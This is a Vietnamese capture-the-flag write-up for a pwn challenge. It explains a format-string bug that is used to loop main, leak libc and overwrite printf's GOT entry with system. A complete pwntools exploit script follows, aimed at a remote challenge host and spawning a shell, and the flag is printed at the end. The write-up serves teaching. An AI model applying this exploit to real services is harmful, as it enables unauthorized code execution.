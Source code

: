 ## [pwn 188] www 

Có thể dùng lỗi format string tại `printf(name)`. Độ dài nhập vào là 26 chỉ đủ ghi đè 1 địa chỉ nên phải tìm cách lặp main để ghi được nhiều hơn.

-> Ghi đè putchar.got thành main, sau đó chọn bất kỳ lựa chọn nào ngoài ariana() đều có thể quay về main

Tiếp theo mở GDB lên xem có leak được địa chỉ nào hữu dụng không

![](https://i.imgur.com/E5TnYlF.png)

Nhận thấy arg 1 của `printf` là địa chỉ của stdin(`_IO_2_1_stdin_`) (format string x64 -> [đây](https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/#:~:text=Linux%3A%20RDI%2C%20RSI%2C%20RDX%2C%20RCX%2C%20R8%2C%20%C2%A0R9%2C%20remaining%20from%20the%20stack)) 


-> Tìm đúng version libc (`strings chall | grep GCC` để lấy phiên bản ubuntu rồi lấy libc trên container về) là leak được libc base 

Cuối cùng gọi `system('/bin/sh')` bằng cách:

- Overwrite printf.got thành địa chỉ system, chỉ cần ghi đè 2 byte vì `printf` và `system` có cùng LSB (byte đầu) (rất may vì nếu phải ghi 3 byte thì phải ghi 2 lần, vượt quá 26 ký tự) 
- Tại `fgets` nhập '/bin/sh', `printf(name)` trở thành thành `system('/bin/sh')`

### script

```python
#!/usr/bin/env python3
from pwn import *

exe = './chall'
script = '''
b *0x40154A
b* 0x40160a
b* 0x40139d
set follow-fork-mode parent
c
'''
if args.LOCAL:
    p = process(exe)
elif args.GDB:
    p = process(exe)
    gdb.attach(p, gdbscript=script)
else:
    p = remote('103.245.250.31', 32183)
elf = ELF(exe)
libc = ELF('./libc-2.31.so')

main = 0x40146F
system = 0x404038
printf = 0x404040 
putchar = 0x404018
# binsh = 0x2f62 696e 2f73 6800

# putchar.got -> main
payload = b'%5231c%12$hnaaaa' + p64(putchar)
p.sendlineafter(b'name?\n', payload)
p.recvuntil(b'Adele\n')
p.send(b'b')

# leak libc base
p.sendlineafter(b'name?\n', b'%p')
libc_base = int(p.recvline(), 16) - libc.sym._IO_2_1_stdin_ - 131
log.info('libc base leak ' + hex(libc_base))
p.recvuntil(b'Adele\n')
p.send(b'b')

# printf.got -> system
system = libc.sym.system + libc_base
system = (system & 0xffff00)>>8

payload = b'%' + str(system).encode() + b'c%12$hn'
payload += b'a'*(16-len(payload))
payload += p64(printf+1)

# system('/bin/sh')
print(payload)
p.sendlineafter(b'name?\n', payload)
p.recvuntil(b'Adele\n')
p.send(b'b')
p.sendline(b'/bin/sh\x00')

p.interactive()

# HCMUSCTF{0n3_g4dg3t_js_n0t_tk3_s0lutj0n_t0_4ll_pr0bl3ms}
```